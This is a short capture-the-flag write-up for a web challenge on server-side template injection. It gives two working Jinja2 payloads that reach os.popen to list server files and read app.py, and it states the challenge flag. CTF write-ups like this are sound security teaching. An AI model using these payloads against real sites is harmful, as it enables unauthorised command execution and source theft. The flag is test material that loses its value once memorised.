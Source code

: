# Games or No Games But Unlimited Games

**Challenge Type: Template Injection**  

## Challenge

I recieved a secret message from the JONKLER in Arkham Asylum. It says: t-t-tHE wAy tHEE SeRvER renDeRs tEmpLAteS oN thE wEbSiTe iS wEiRD! Actually Jonkler Moment.
<br>
games.nypinfosec.com

## Solution 

1) Enter the login/register screen, you shall see that the website take your username and directly put it in the url. 
> Indication of potential injection
2) Using what the crazy man said, we can infer it is template injection.
3) Let's use the payload ``` {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}```
> This is to see what are the folders involved.
4) After revealing that it runs app.py, let's open it then using the payload ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat app.py').read()}}  ```
5) Flag found: NYP{Fl4$K_$ST1_1nj3ct10n@1B2C3}